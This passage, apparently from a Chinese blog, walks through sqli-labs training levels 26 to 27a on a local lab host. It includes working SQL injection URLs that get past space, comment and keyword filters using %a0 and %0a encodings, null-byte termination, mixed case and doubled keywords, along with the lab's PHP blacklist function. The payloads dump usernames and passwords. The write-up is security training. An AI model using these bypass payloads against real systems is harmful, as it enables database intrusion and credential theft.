 
上边空格绕过，只成功了`%a0`,其他都报错.......
![NxpN11.png](https://s1.ax1x.com/2020/07/04/NxpN11.png)

`http://192.168.2.222/sqli-labs-master/Less-26/?id=.'%a0union%a0select%a01,group_concat(username,passwoorrd),3%a0from%a0users;%00`由于-被过滤所以联合注入时，id参数不能用负数了，可以随便找个字符或者大一点的数字，让他查询为空从而显示后边的。这里我用一个点。

![NxCMoF.png](https://s1.ax1x.com/2020/07/04/NxCMoF.png)

## ***Less-26a Trick with comments***


本关关闭了报错。

`http://192.168.2.222/sqli-labs-master/Less-26a/?id=1') ;%00`
成功返回正确信息，说明闭合方式为`')`

其余操作和上关类似。`http://192.168.2.222/sqli-labs-master/Less-26a/?id=.')%a0union%a0select%a01,group_concat(username,passwoorrd),3%a0from%a0users;%00`

## ***Less-27 Trick with SELECT & UNION***


    function blacklist($id)
    {
    $id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
    $id= preg_replace('/[--]/',"", $id);		//Strip out --.
    $id= preg_replace('/[#]/',"", $id);			//Strip out #.
    $id= preg_replace('/[ +]/',"", $id);	//Strip out spaces.
    $id= preg_replace('/select/m',"", $id);	//Strip out spaces.
    $id= preg_replace('/[ +]/',"", $id);	//Strip out spaces.
    $id= preg_replace('/union/s',"", $id);	//Strip out union
    $id= preg_replace('/select/s',"", $id);	//Strip out select
    $id= preg_replace('/UNION/s',"", $id);	//Strip out UNION
    $id= preg_replace('/SELECT/s',"", $id);	//Strip out SELECT
    $id= preg_replace('/Union/s',"", $id);	//Strip out Union
    $id= preg_replace('/Select/s',"", $id);	//Strip out select
    return $id;
    }

本关过滤了`select union`等，但可以通过双写或者大小写绕过。

很奇怪，商议关不能用的那些绕过空格的方法都可以用了......

payload:`http://192.168.2.222/sqli-labs-master/Less-27?id=.'%a0UNiON%a0SeleCt%a01,group_concat(username,password),3%a0from%a0users;%00`

##  ***Less-27a Trick with SELECT & UNION***

测试单引号页面正常，双引号页面不正常。`http://192.168.2.222/sqli-labs-master/Less-27a/?id=1"`,猜测包裹参数的有双引号，注释掉后边，页面正常，`http://192.168.2.222/sqli-labs-master/Less-27a/?id=1";%00`,说明闭合方式为双引号`"`

过滤规则和上关一样。

payload:
`http://192.168.2.222/sqli-labs-master/Less-27a/?id=1111"%0auniunionon%0aSeleCt%0a1,group_concat(username,password),3%0afrom%0ausers;%00`
